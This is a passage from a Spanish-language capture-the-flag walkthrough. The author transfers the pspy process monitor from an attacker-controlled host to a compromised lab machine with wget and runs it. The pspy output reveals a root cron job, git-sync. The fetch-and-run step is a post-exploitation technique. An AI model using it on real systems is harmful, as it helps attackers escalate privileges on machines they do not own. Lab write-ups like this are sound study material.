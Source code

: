 Lo que nos faltaría es ver si hay alguna **tarea CRON** ejecutándose. Esto lo revisaremos con **pspy**.

Descárgalo aquí:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy</a>

Abre un servidor de **Python** y descárgalo en la máquina víctima:
```bash
dev01@opensource:/tmp$ wget http://Tu_IP/pspy64
--2024-10-08 20:41:48--  http://Tu_IP/pspy64
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64    100%[==================>]   2.96M   430KB/s    in 7.2s    

2024-10-08 20:41:56 (420 KB/s) - ‘pspy64’ saved [3104768/3104768]
```

Y ejecutemos el **pspy**:
```bash
dev01@opensource:/tmp$ ./pspy64 
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░

2024/10/08 20:45:01 CMD: UID=0     PID=11414  | /bin/bash /usr/local/bin/git-sync 
2024/10/08 20:45:01 CMD: UID=0     PID=11413  | /bin/sh -c /usr/local/bin/git-sync 
2024/10/08 20:45:01 CMD: UID=0     PID=11412  | /usr/sbin/CRON -f 
2024/10/08 20:45:01 CMD: UID=0     PID=11415  | git status --porcelain 
2024/10/08 20:45:01 CMD: UID=0     PID=11416  | /bin/bash /usr/local/bin/git-sync 
2024/10/08 20:45:01 CMD: UID=0     PID=11417  | git add . 
2024/10/08 20:45:01 CMD: UID=0     PID=11419  | /bin/bash /usr/local/bin/git-sync 
2024/10/08 20:45:01 CMD: UID=0     PID=11420  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
2024/10/08 20:45:01 CMD: UID=0     PID=11421  | 
2024/10/08 20:46:01 CMD: UID=0     PID=11426  | /usr/sbin/CRON -f 
2024/10/08 20:46:01 CMD: UID=0     PID=11425  | /usr/sbin/CRON -f 
2024/10/08 20:46:01 CMD: UID=0     PID=11424  | /usr/sbin/CRON -f 
2024/10/08 20:46:01 CMD: UID=0     PID=11423  | /usr/sbin/CRON -f 
2024/10/08 20:46:01 CMD: UID=0     PID=11430  | /bin/sh -c /usr/local/bin/git-sync
```
